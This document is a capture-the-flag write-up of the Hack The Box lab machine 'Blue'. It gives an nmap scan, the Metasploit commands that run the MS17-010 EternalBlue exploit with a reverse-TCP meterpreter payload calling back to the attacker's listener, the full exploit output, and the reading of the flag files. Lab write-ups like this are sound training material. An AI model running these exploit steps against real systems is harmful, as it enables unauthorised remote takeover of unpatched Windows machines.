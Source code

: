```yaml
---
layout: default
title: "Blue"
tags: hackthebox windows easy
---
```


| OS       | Difficulty | Points | Release Date | IP Address  |
|----------|------------|--------|--------------|-------------|
| Windows  | Easy       | 20     | 28 July 2017 | 10.10.10.40 |



# Skills

>* NMap
>* Metasploit

# Information Gathering

## Nmap

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. Some key things to note are:
* 139/tcp open microsoft-ds
* Host: HARIS-PC (Noted as a possible username)

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m15s, deviation: 34m36s, median: 1m42s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-10T22:30:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-10T21:30:07
|_  start_date: 2020-07-10T10:57:21
```

# Exploitation

## Searching for the Exploit

Once I had found my attack vector, all that was left was the fun part: exploitation.
I firstly had to find the Metasploit module that contained the "MS17-010" exploit.

```bash
msf5 > search ms17-010

Matching Modules
================

      Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 > use 2
```

## Setting Module Options
Then, I configured the module to exploit the target machnine (10.10.10.40) and to open up a TCP listener on my machine (10.10.14.30) on port 4444.

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
``` 

## Setting Payload & Running Exploit

After that, I set the payload to a staged meterpreter shell rather than the default unstaged generic one and exploited!

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1 
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.40:49159) at 2020-07-10 23:14:29 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```    

# User Flag
```bash
meterpreter > cd Desktop
meterpreter > ls 

Listing C:\users\haris\Desktop

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 14:45:52 +0100    desktop.ini
100666/rw-rw-rw-  32    fil    2017-07-21 07:54:02 +0100    user.txt

meterpreter > cat user.txt
```


# Root Flag
```bash
meterpreter > cd /users/Administrator/Desktop
meterpreter > ls 

Listing C:\users\Administrator\Desktop

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 07:56:36 +0100    desktop.ini
100444/r--r--r--  32    fil    2017-07-21 07:56:49 +0100    root.txt

meterpreter > cat root.txt
```